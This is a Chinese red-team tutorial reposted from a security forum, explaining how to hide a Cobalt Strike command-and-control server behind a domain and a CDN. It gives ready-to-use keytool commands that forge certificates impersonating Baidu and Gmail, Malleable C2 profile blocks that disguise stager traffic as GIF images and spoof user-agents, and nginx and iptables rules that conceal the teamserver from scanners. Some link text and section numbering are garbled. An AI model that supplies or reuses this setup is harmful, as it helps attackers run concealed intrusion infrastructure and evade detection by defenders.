 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/9616)

> 先知社区，先知安全技术社区

cs 的基础用法、修改端口、密码的教程网上很多，此处不再赘述。

但在搭建域名 + CDN 隐藏版 c2 时楼主遇到了不少的坑，在这里顺着搭建的思路慢慢把踩的坑填上。
--------------------------------------------------

*   1.CS 证书特征配置  
    Cobalt Strike 是一款美国 Red Team 开发的渗透测试神器，常被业界人称为 CS。  
    1.1 去除证书特征：基于 keytool 生成自签证书  
    用 JDK 自带的 keytool 证书工具即可生成新证书：
    
    ```
    keytool命令:
    -certreq            生成证书请求
    -changealias        更改条目的别名
    -delete             删除条目
    -exportcert         导出证书
    -genkeypair         生成密钥对
    -genseckey          生成密钥
    -gencert            根据证书请求生成证书
    -importcert         导入证书或证书链
    -importpass         导入口令
    -importkeystore     从其他密钥库导入一个或所有条目
    -keypasswd          更改条目的密钥口令
    -list               列出密钥库中的条目
    -printcert          打印证书内容
    -printcertreq       打印证书请求的内容
    -printcrl           打印 CRL 文件的内容
    -storepasswd        更改密钥库的存储口令
    ```
    

例如：  
国内 baidu

```
keytool -keystore cobaltStrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias baidu.com -dname "CN=ZhongGuo, OU=CC, O=CCSEC, L=BeiJing, ST=ChaoYang, C=CN"
```

国外 gmail：

```
keytool -keystore cobaltstrike.store -storepass 123456 -keypass 123456 -genkey -keyalg RSA -alias gmail.com -dname "CN=gmail.com, OU=Google Mail, O=Google GMail, L=Mountain View, ST=CA, C=US"
```

（Windows 版也可使用 java 安装目录下自带工具 <java_home>\bin\keytool.exe）  
然后使用 keytool 工具可查看生成的证书：</java_home>

```
keytool -list -v -keystore cobaltstrike.store
```

**其中的坑：**

要么生成 cobaltstrike.store 替换默认位置对应文件，要么在 teamserver 启动文件中指定，例如生成 baidu.store，就要修改 teamserver 为：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210526221035-23db51b4-be2c-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526221035-23db51b4-be2c-1.png)

```
http-stager {
    set uri_x86 "/get32.gif";
    set uri_x64 "/get64.gif";
    client {
            parameter "id" "1234";
            header "Cookie" "SomeValue";
    }
    server {
            header "Content-Type" "image/gif";
            output {
                prepend "GIF89a";
                print;
            }
    }
}
```

**填坑 2：**使用 cloudflare 隐藏 c2 还要设置 profile 中的 head 的 mime-type，具体为：需要在 http-config 将头设置为 header "Content-Type" "application/*; charset=utf-8"，不然可能会出现能上线但是无法回显命令的情况：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210526221934-64fff78e-be2d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526221934-64fff78e-be2d-1.png)  
**填坑 3：**在 profile 中设置 user-agent 可避免各种被检测，同时也是 https 反向代理的有力识别标志例如将 ua 设置为 Mozilla/5.0 (Windows NT 6.1; Trident/8.0; rv:12.0)：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210526221952-6ffc6460-be2d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526221952-6ffc6460-be2d-1.png)  
在使用 nginx 反向代理时即可过滤：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210526222004-7740192e-be2d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526222004-7740192e-be2d-1.png)  
此时如果有多个工具生成 shellcode 上线 ua 不同，可设置多条件过滤，满足多人运动的需求：  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210526222023-821fed42-be2d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526222023-821fed42-be2d-1.png)  
最后在 https-certificate 配置中还要对 https 证书进行声明：

```
https-certificate {
     set keystore “api.xxx.com.store”;
     set password “123456”;
}
```

最后检查配置文件有效性：

```
./c2lint malleable.profile
```

即可在 teamserver 启动时加载 profile：

```
./teamserver 1.1.1.1(你的ip) ******(密码) malleable.profile
```

*   2.3 服务器反向代理限制访问  
    最重要的一个知识点就是使用反向代理限制你的 c2 被别人发现，例如配置：
    
    ```
    location ~*/jquery {
          if ($http_user_agent != "Mozilla/5.0 (Windows NT 6.3; Trident/7.0; rv:11.0) like Gecko") {
          return 302 $REDIRECT_DOMAIN$request_uri;
          }
          proxy_pass          https://127.0.0.1:5553;
    }
    ```
    
    就可以很好地隐藏自己，但这里有一些坑点，楼主是踩了又跳出来;  
    **填坑 1：**在 nginx 配置信息中 location ~*/ 位置，需配置 x-forword 信息，同时在 profile 设置，否则上线的外网 ip 为自己的 vps，或 cdn 地址，无法获取外部信息：  
    nginx.conf 文件：
    
    ```
    proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
    ```
    
    profile 文件：
    
    ```
    http-config {
      set trust_x_forwarded_for "true";
    }
    ```
    
    **填坑 2：**在 nginx 反向代理配置中，启动监听器时 http host 可为域名地址，bind port 可另选一个，作为 proxy_pass 内容：  
    [![](https://xzfile.aliyuncs.com/media/upload/picture/20210526222248-d89d4a48-be2d-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210526222248-d89d4a48-be2d-1.png)  
    其中 bind port 可在本机使用防火墙屏蔽，只允许内部访问：
    
    ```
    iptables -I INPUT -p tcp --dport 45559 -j DROP
    iptables -I INPUT -s 127.0.0.1 -p tcp --dport 45559 -j ACCEPT
    ```
    
    但 proxy_pass [http://127.0.0.1:45559; 的地址选择也有门道，reverse](http://127.0.0.1:45559;的地址选择也有门道，reverse) http 类型可填写任意本机真实 ip 信息，如 localhost，127.0.0.1，甚至有外网网卡的直接外网真实 ip 都可以正常上线。

但 reverse https 类型只能填写 127.0.0.1，如使用真实 ip，如 99.199.99.199，proxy_pass [https://99.199.99.199.:45559 的请求 cdn 会一直超时，造成无法上线。](https://99.199.99.199.:45559的请求cdn会一直超时，造成无法上线。)